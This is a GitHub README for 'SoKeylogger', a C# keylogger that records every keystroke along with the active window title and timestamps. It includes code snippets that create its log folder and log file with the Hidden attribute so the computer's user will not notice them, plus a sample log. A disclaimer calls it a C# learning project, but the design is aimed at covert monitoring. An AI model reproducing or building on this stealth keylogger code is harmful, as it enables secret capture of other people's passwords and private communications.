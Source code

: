 # SoKeylogger

#### [README_RU](https://github.com/S0mbruh/SoKeylogger/blob/master/README_RU.md)

### About

Developed using .NET framework 4.0 for greater compatibility.

The application allows you to log keystrokes on the PC.

#### The application was created in order to study C#. I am not responsible for your actions with this application and source code.

### Settings

You can configure some parameters by changing the variables in the #Settings region.

```csharp
// personal ID of this application. helps to sort log files
private static readonly string KLGR_PERS_ID = "1";
// directory path
private static readonly string DIR_PATH = @"C:\directory name";
// log file name
private static readonly string LOG_FILENAME = @"\filename" + KLGR_PERS_ID + ".txt";
// full path to log file
private static readonly string LOGFILE_FP = DIR_PATH + LOG_FILENAME;
```

### Logging

If the logging directory does not exist, it is created and it's attribute sets to "Hidden".<br/>
The user will not be able to see the folder without turning on the function of viewing hidden items in the explorer.

```csharp
if (!Directory.Exists(DIR_PATH)) {
    DirectoryInfo di = Directory.CreateDirectory(DIR_PATH);
    di.Attributes = FileAttributes.Directory | FileAttributes.Hidden;
}
```

The same with log file. It is created if it does not exist and it's attribute sets to "Hidden".  

```csharp
if (!File.Exists(LOGFILE_FP)) {    
    File.Create(LOGFILE_FP);
    FileInfo fi = new FileInfo(LOGFILE_FP);
    fi.Attributes = FileAttributes.Hidden;
}
```

When the program is restarted, the log file will not be deleted. Application will add new entries to the end.<br />
The log file contains information in this condition: [Date Time][Active window caption] -> [Key]

```
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> E
[01.01.1970 00:00:00][Notepad] -> S
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> Space
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> H
[01.01.1970 00:00:00][Notepad] -> I
[01.01.1970 00:00:00][Notepad] -> S
```

### Known problems

- When the application is started for the first time, logging does not begin if the directory and the log file do not exist.
